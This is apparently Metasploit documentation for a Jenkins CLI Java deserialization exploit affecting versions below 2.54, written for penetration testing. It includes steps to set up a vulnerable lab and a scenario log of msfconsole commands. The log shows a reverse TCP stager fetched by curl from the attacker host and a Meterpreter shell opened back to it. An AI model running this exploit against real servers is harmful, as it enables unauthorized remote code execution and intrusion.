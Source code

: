## Vulnerable Application

  An unauthenticated Java object deserialization vulnerability exists
  in the CLI component for Jenkins versions below `v2.54`.

  The `readFrom` method within the `Command` class in the Jenkins
  CLI remoting component deserializes objects received from clients without
  first checking / sanitizing the data. Because of this, a malicious serialized
  object contained within a serialized `SignedObject` can be sent to the Jenkins
  endpoint to achieve code execution on the target.

### Installation

  Vulnerable versions of Jenkins can be downloaded from [here](https://get.jenkins.io/war-stable/).
  Additionally, a [jdk](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html) will need to be installed on the target system.

  To start Jenkins, navigate to the location of the downloaded `war` file and execute:
  `java -jar <jenkins-file>.war`. To test if Jenkins is properly working, the CLI component
  can be accessed by navigating to `http://localhost:8080/cli`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `exploit/linux/http/jenkins_cli_deserialization`
  4. Do: `set RHOST <ip>`
  5. Do: `run`
  6. You should get a shell.

## Options

  No options

## Scenarios
### Jenkins `v2.32.1` on Ubuntu Linux 18.04.1`

```
msf6 > use exploit/linux/http/jenkins_cli_deserialization
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/jenkins_cli_deserialization) > set rhost 192.168.37.149
rhost => 192.168.37.149
msf6 exploit(linux/http/jenkins_cli_deserialization) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(linux/http/jenkins_cli_deserialization) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Jenkins version 2.32.1 detected
[*] Sending payload...
[*] Using URL: http://0.0.0.0:8080/JMpXWoK
[*] Local IP: http://192.168.1.141:8080/JMpXWoK
[*] Client 192.168.37.149 (curl/7.58.0) requested /JMpXWoK
[*] Sending payload to 192.168.37.149 (curl/7.58.0)
[*] Command Stager progress -  50.46% done (55/109 bytes)
[*] Command Stager progress -  70.64% done (77/109 bytes)
[*] Command Stager progress -  82.57% done (90/109 bytes)
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Sending stage (976712 bytes) to 192.168.37.149
[*] Meterpreter session 7 opened (192.168.37.1:4444 -> 192.168.37.149:44748) at 2020-09-10 18:01:34 -0500
[*] Server stopped.

meterpreter > getuid
Server username: space @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.37.149
OS           : Ubuntu 18.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
